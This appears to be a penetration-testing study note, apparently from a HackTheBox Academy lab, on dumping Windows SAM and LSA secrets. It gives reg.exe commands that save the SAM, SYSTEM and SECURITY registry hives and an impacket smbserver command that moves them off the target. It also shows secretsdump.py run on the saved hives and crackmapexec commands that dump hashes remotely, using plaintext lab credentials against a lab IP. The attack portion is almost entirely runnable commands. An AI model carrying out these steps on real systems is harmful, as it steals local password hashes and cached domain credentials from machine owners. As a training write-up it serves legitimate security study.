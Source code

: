 ```yaml
---
description: helpful when we have base shell/local shell creds
---
```


# Attacking SAM

### Copying SAM registry hives

<table><thead><tr><th width="233">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td>hklm\sam</td><td>local password in hashes</td></tr><tr><td>hklm\system</td><td>system bootkey, which helps to encrypt SAM database</td></tr><tr><td>hklm\security</td><td>cached creds from domain. benefit in domain system</td></tr></tbody></table>

### Using reg.exe save to Copy Registry Hives&#x20;

```
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

![[images/image 1.png]]


## Creating share with smbserver


```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support ROPNOP .
```


Now, after after copying HIves with reg.exe, go to C drive and move to smb share

![[image 1 1.png]]
C drive


### Dumping Hashes with Impacket's secretsdump.py

secretsdump dumps the local SAM hashes&#x20;

and also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security.&#x20;

first step secretsdump executes is targeting the system bootkey. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section.


```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


![[images/image 2.png]]

## Remote Dumping SAM & LSA Secrets

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

![[images/image 3.png]]

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

![[images/image 4.png]]

**LSA:** can be more helpful with many purposes as we can do network auth if PC is connected with domain

**SAM:** useful to gain local user creds as it stores local passwords
